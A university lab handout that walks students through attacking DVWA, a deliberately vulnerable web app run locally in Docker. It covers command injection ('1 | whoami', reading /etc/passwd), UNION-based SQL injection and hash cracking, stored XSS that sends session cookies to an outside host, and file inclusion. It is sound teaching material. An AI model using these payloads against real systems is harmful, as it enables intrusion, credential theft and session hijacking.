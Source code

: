 # Computer Security, ac. year 2023./2024.
# 3rd lab excersise: Web application vulnerabilities

## IP address

To perform the third lab exercise. Normally everything works by default, but if you cannot connect to the machine over the network, try changing the virtual machine's network adapter type (bridged or NAT should work). You also need to be connected to the Internet on the host computer!

Log in to the virtual machine and check the assigned IP addresses:
```
$ ip addr
...
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute enp0s3
...
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 10.19.0.136/24 brd 10.19.0.255 scope global dynamic noprefixroute enp0s8
...
4: enp0s9: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    inet 192.168.56.101/24 brd 192.168.56.255 scope global dynamic noprefixroute enp0s9
```
In the example shown, the NAT interface is assigned the address 10.0.2.15, the address of the  "bridged" interface is 10.19.0.136 and the address of the "host-only" interface is 192.168.56.101.
In this exercise, you will connect from your host computer to a vulnerable web server at virtual machine's "bridged" or "host-ony" address.

## Docker

Start a docker instance of a vulnerable web server.
 
* If you are using a VirtualBox to run the IMUNES-Ubuntu _image_ (Windows / Linux / macOS Intel) call:
```
$ sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
* If you are using UTM to run the IMUNES-Ubuntu (macOS Apple Silicon M1/M2) call:  
```
$ sudo docker run --rm -it -p 80:80 dvwa
```

## Connecting to a vulnerable web server

Connect to a vulnerable web server from your host computer using a "bridged" or "host-ony" address:
```
http://_address_/
```
The login credentials are:
```
u: admin
p: password
```
Click on the button at the bottom of the page: `Create / Reset Database` and open the same page again:
```
http://_address_/
```
In this exercise, you will study web application vulnerabilities (Commmand Execution, SQL injection, XSS and File inclusion). The goal is to exploit vulnerabilities so you know how to test and protect a web application in the future.


**NOTE:** NOTE: When performing the exercise, feel free to use the options hidden behind the `View Source` and `View Help` buttons in the lower-left corner of each window.

## 1) Command Injection

- Open `Command Injection`

- Try command: `1 | echo SRS`

- If the form has printed `SRS`, continue - if not, make sure that the `dvwa low security level` is set in the DVWA Security menu.

- Furthermore, you can type any command after the initial `1 |`. Separate multiple commands with a character `&`. Examples: `1 | ls`, `1 | pwd & whoami & ps`...

- It is necessary to print the contents of the file `/etc/passwd` and attach it in the solution of the task with the described procedure and the commands used.

## 2) SQL injection

- Open `SQL Injection`.

- Try basic examples according to course lectures.

- The goal is to retrieve password hash for the user “pablo picasso”. To get it, you need to know the structure and name of the table in which the user data is stored. Although this can be achieved by typing a series of SQL statements into the form under `SQL injection`, for simplicity you can look at how the table looks directly in the database:
```
    mysql> show columns from users;
    +------------+-------------+------+-----+---------+-------+
    | Field      | Type        | Null | Key | Default | Extra |
    +------------+-------------+------+-----+---------+-------+
    | user_id    | int(6)      | NO   | PRI | 0       |       |
    | first_name | varchar(15) | YES  |     | NULL    |       |
    | last_name  | varchar(15) | YES  |     | NULL    |       |
    | user       | varchar(15) | YES  |     | NULL    |       |
    | password   | varchar(32) | YES  |     | NULL    |       |
    | avatar     | varchar(70) | YES  |     | NULL    |       |
    +------------+-------------+------+-----+---------+-------+
```

- Save the password hash retrieved by the `SQL injection` attack into a file on a virtual machine. Example for user `admin`:
```
$ echo "21232f297a57a5a743894a0e4a801fc3" > hashes.txt
```

The password hash is calculated with MD5.

You can perform "password cracking" using some free online service. (You can also install and use the program "John the Ripper")

- It is necessary to specify all the commands that you have inserted and describe the whole process. The final solution to the task is the password of the user Pablo Picasso. (Hint: Use the `UNION` keyword in queries)

## 3) XSS (Cross Site Scripting)

- Open `XSS Stored` window. Here it is possible to enter scripts in the `Message` section, which are then stored in the database, i.e. in the `guestbook` table.

- Try to enter simple javascript code - by reloading the page, the script should be executed automatically (e.g. javascript command `alert()`).

- Read the cookies of the user that is viewing the site using the javascript command `alert()`. Specify the VALUE of the `PHPSESSID` variable in the report in one line of the following format:
```
PHPSESSID=f04m0i20nek10volimtep6e9irji5
```

- All cookies should be submitted using the `GET` request as a parameter on:\
  `http://mrepro.tel.fer.hr/srs`\
Add the parameter `jmbag` which coresponds to your students number.\
For example:\
`http://mrepro.tel.fer.hr/srs?cookie=security=low;%20PHPSESSID=f04m0i20nek10volimtep6e9irji5&jmbag=0012345678`\
\
  Describe the whole process and attach the scripts used.

- How would you protect your app from vulnerabilities like this?

## 4) File inclusion

- Open the File Inclusion window and follow the instructions (it is possible to change the HTTP `GET` parametar `page`)

- Print the `/etc/passwd` file, attach a screenshot with the printed file, and explain why it is possible to do this.

- How would you protect this app from this type of attack?

## Results of laboratory exercise

As a result of the laboratory exercise, through the Moodle system you need to submit a **ZIP archive** containing a report file **report.txt** in txt format (maximum 1500 words) with a task solving process and answers to questions and a **screenshot** from task 4.

